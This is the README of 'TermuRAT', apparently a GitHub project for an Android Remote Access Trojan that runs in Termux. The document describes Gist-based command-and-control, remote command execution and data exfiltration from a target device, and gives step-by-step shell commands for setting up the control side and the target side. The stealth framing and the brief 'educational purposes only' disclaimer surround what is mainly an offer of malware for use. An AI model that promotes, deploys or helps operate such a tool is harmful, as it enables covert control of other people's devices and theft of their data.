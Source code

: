 # TermuRAT

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

